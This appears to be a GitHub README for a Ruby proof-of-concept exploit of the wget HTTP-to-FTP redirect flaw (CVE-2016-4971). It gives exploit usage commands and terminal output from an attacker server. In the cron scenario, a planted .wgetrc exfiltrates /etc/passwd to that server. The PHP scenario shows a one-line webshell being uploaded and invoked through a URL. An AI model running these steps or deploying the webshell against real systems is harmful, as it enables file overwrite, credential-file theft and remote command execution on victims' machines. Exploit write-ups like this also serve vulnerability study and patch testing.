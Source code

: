 # CVE-2016-4971 | Wget 1.18 < Arbitrary Commands Execution

GNU wget before 1.18 allows remote servers to write to arbitrary files by redirecting a request from HTTP to a crafted FTP resource.

> GNU Wget (including the latest version) when supplied with a malicious website link can be tricked into saving an arbitrary remote file supplied by an attacker, with arbitrary contents and filename under the current directory. This can lead to potential code execution by creating system scripts (such as .bash_profile and others) within home directory as well as other unauthorized actions (such as request sniffing by proxy modification, or arbitrary system file retrieval) by uploading .wgetrc configuration file.
>
>Because of lack of sufficient controls in wget, when user downloads a file with wget, such as:
wget http://attackers-server/safe_file.txt
>
>An attacker who controls the server could make wget create an arbitrary file with arbitrary contents and filename by issuing a crafted HTTP 30X Redirect containing ftp server reference in response to the victim’s wget request.
>_[securiteam.com](https://blogs.securiteam.com/index.php/archives/2701)_

### Vulnerability limitations
As far as this vulnerability could lead to full system compromise, it has to has many conditions to be a real threat.
- You can't use with extra options that force destination filename are specified as a parameter. Such as: `-O`
- `Wget` has to be executed at user's home directory unless scenario No. 2 (see below)
- User must have permissions to write in `/etc/cron.d/` directory


# Usage
**Exploit**
```
ruby ftpd.rb [PATH]
ruby cve-2016-4971_exploit.rb <WEB_SERVER_PORT> <FTP_SERVER_IP> <FTP_SERVER_PRT>
```

## PoC

### 1) Cronjob with wget scenario

**Attacker machine**

- 1. Run FTP server. `sudo for port 21`

```
> sudo ruby ftpd.rb .
[*] Interface: 0.0.0.0
[*] Port: 21
[*] Directory: /home/pentest/exploitation/CVE-in-Ruby/CVE-2016-4971
[*] User:
[*] Pass:
[*] PID: 14777
[+] FTP server started. (Press CRL+C to stop it)
```

- 2. Run http exploit server. `sudo for port 80`

```
sudo ruby cve-2016-4971_exploit.rb 80 "192.168.100.10/.wgetrc" 21
```

**Victim machine**

- 1. Run `wget` against attacker's webserver to download `.wgetrc`

```
> wget http://192.168.100.10/


--2016-07-10 07:34:31--  http://192.168.100.10/
Connecting to 192.168.100.10:80... connected.
HTTP request sent, awaiting response... 301 Moved Permanently
Location: ftp://192.168.100.10/.wgetrc [following]
--2016-07-10 07:34:31--  ftp://192.168.100.10/.wgetrc
           => '.wgetrc'
Connecting to 192.168.100.10:21... connected.
Logging in as anonymous ... Logged in!
==> SYST ... done.    ==> PWD ... done.
==> TYPE I ... done.  ==> CWD not needed.
==> SIZE .wgetrc ... 70
==> PASV ... done.    ==> RETR .wgetrc ... done.
Length: 70 (unauthoritative)

.wgetrc                                        100%[===================================================================================================>]      70   175 B/s    in 0.4s

2016-07-10 07:34:35 (175 B/s) - '.wgetrc' saved [70]

```

- 2. Run `wget` again to execute what's in `.wgetrc` file, which are:
- sending `POST` request to the HTTP server with `/etc/passwd` content
- get the `POST` response body and put it in a cronjob `/etc/cron.d/wget-root-shell`

```
> wget http://192.168.100.10/

--2016-07-10 07:37:38--  http://192.168.100.10/
Connecting to 192.168.100.10:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 47 [text/plain]
Saving to: '/etc/cron.d/wget-root-shell'

/etc/cron.d/wget-root-shell                    100%[===================================================================================================>]      47  --.-KB/s    in 0s

2016-07-10 07:37:38 (11.5 MB/s) - '/etc/cron.d/wget-root-shell' saved [47/47]
```

At that point,
- A `.wgetrc` file has been created in the user's home directory.
- A cronjob has been created in `/etc/cron.d/wget-root-shell` that creates `hacked-via-wget` text file at the user's home directory.
- Attacker machine will receive `/etc/passwd` content, printed on the same HTTP server terminal

```
[+] Setting up AttackSetup
  - Creating malicious '.wgetrc' file.
   -- The malicious file '.wgetrc' has been created!
[+] Checking FTP server connectivity
  - FTP server is running on: 192.168.100.10:21
[+] Starting HTTP server on port: 80
  - IP connected: 192.168.100.12, wget agent!, yay!
[*] Exploiting with malicious FTP server: 192.168.100.10:21/.wgetrc
  [+] Uploading '.wgetrc' via wget FTP redirect vulnerability
  - IP connected: 192.168.100.12, wget agent!, yay!
[*] Exploiting with malicious FTP server: 192.168.100.10:21/.wgetrc
  [+] Uploading '.wgetrc' via wget FTP redirect vulnerability
  - IP connected: 192.168.100.12, wget agent!, yay!
[*] Exploiting with malicious FTP server: 192.168.100.10:21/.wgetrc
  [+] Uploading '.wgetrc' via wget FTP redirect vulnerability
  - IP connected: 192.168.100.12, wget agent!, yay!
[*] Exploiting with malicious FTP server: 192.168.100.10:21/.wgetrc
  [+] Uploading '.wgetrc' via wget FTP redirect vulnerability
  [+] Getting POST request!
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
messagebus:x:106:110::/var/run/dbus:/bin/false
uuidd:x:107:111::/run/uuidd:/bin/false
user:x:1000:1000:user,,,:/home/user:/bin/bash
sshd:x:108:65534::/var/run/sshd:/usr/sbin/nologin
---------------[ END OF DATA ]---------------

```

### 2) PHP web application scenario

If wget is used within a PHP script e.g.:
```php
<?php
// Update geoip data
system("wget -N -P geoip http://attackers-host/goeip.db");
?>
```

An attacker who manages to respond to the request could simply upload a PHP backdoor of:

```php
<?php
//webshell.php
system($_GET['cmd']);
?>
```

by keeping FTP server running and creating `shell.php` on the attacker's server then re-run the HTTP server as follows

```
sudo ruby cve-2016-4971_exploit.rb 80 "192.168.100.10/shell.php" 21
```

At that point, the attacker will be able to browser the php shell from browser
```
http://victims-php-host/geoip/webshell.php?cmd=id
```


# References
- http://www.cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-4971
- https://blogs.securiteam.com/index.php/archives/2701
